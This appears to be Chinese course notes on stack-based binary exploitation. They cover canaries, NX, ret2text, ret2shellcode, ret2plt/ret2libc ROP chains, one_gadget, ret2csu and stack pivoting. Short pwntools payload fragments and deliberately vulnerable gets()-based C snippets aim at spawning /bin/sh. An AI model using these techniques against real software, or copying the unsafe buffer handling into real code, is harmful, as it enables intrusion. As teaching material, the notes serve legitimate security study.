 # 第 9 天（上）：面向返回地址编程

## 程序的保护措施

### PIE 保护

整个程序 image 加载地址随机，所以各个段（如 .text 函数地址、.data 全局变量地址等）都变成未知的了。

（不过也许可以用 FSB 泄露出来。）

### 栈上的金丝雀：Stack Canary

这是一个插在栈里面的随机值，保护着 rbp 和返回地址。

```asm
mov    rax,QWORD PTR fs:0x28
mov    QWORD PTR [rbp-0x8],rax
xor    eax,eax
......
mov    rsi,QWORD PTR [rbp-0x8]
xor    rsi,QWORD PTR fs:0x28
je     6e5 <func+0x7b>
call   540 <__stack_chk_fail@plt>
leave
ret
```

如果打算用栈溢出破坏程序，就会干掉这个金丝雀（随机值被你改掉了）。

而程序会判断金丝雀是否还活着。如果她没了，就代表这个栈已经被你给草了，程序就会终止。

### NX 保护

NX：Not eXecutable。一个段不能同时拥有“写”和“执行”属性。

也就是说可以写的地方不能跑，可以跑的地方不能写。否则我往你 .text 随便写点东西，你不就爆炸了？

## Return to Text

把返回地址劫持到 .text 段上已有的函数。

## Return to Shell Code

```cpp
void vul()
{
	char buffer[0x10];
	printf("buffer address: %p\n", buffer);
	gets(buffer);
}
```

没有 backdoor 函数了……但这是普遍情况。

```python
context.arch = "amd64"
p.recvuntil("buffer address: ")
stackloc = int(p.recv(12), 16)
tarloc = stackloc + 0x38
payload = b'b' * 0x18 + p64(tarloc) + b'b' * 0x18
payload += asm(shellcode)
```

但是，如果栈没有执行权限呢？

## 小工具 Gadgets

Gadgets 是用来构造 ROP 链的，一些来自源程序的合法代码段。

### ROPgadget，ropper

```shell
ROPgadget --binary xxx
```

## Return to PLT

程序中有很多的跳转，而其中有一些是依靠 PLT 表的。

那么如果我们修改 PLT 表的话，是否就可以合法地改变程序的运行流程？

```cpp
char str[] = "/bin/sh";
void prepare() { system("echo hello"); }
void vul()
{
	char buffer[32];
	gets(buffer);
}
```

该怎么拿到 shell 呢？

也就是说，执行 system 的时候怎么把 str 给它？

```python
context.arch = "amd64"
payload = b'b' * (8 * 5)
payload += p64(0x40101a) + p64(0x401223) + p64(0x404038) + p64(0x401050)
```

其中（来自 ROPgadget）：

```asm
0x40101a:
	ret ; 为了对齐
0x401223:
	pop rdi ; (rdi <- 0x404038)
	ret
0x404050:
	system@plt ; (rdi = 0x404038)
```

这样就用程序自己的代码把控制流改了，还把 str 的地址送给了 system。

但是，如果 system 不在 PLT 里面的话……

## Return to libc

libc 里面一定有个 system。但是这需要把 libc 泄露了。

```cpp
char str[] = "/bin/sh";
void vul()
{
	char buffer[32];
	printf("gets address: %p\n", printf);
	gets(buffer);
}
```

printf 函数在 libc 的段里面。那么 printf 和 system 的地址之间有什么关系？

但是，如果程序里面没有 "/bin/sh"……

### OneGadget

```shell
ldd xxx
one_gadget xxx/libc.so.6
```

### 参数控制的技巧

跳到后门不需要参数，跳到 system 只需要准备一个参数。那如果要准备更多参数呢？

多来几个 pop gadget 就行了。

## Return to csu

__libc_csu_init 是几乎所有没有阉割过的 ELF 中都存在的一个函数。它是用来干嘛的呢？

它本来是用来干嘛的对我们来说不重要，我们只需要知道它里面有很多控制寄存器的指令就行了。

## 栈迁移 Stack Pivot

```cpp
char string[0x100];

void prepare()
{
    system("echo who are you?");
    read(0, string, 0x100);
}

void vul()
{
    char buffer[16];
    read(0, buffer, 0x20);
}

int main(int argc, char *argv[])
{
    prepare();
    vul();
}
```

只给我们 0x20 的长度来溢出？也就是只能刚刚好到返回地址。

使用 leave 和 retn 创造一个假的 ebp，把栈迁移到那个 string 上。
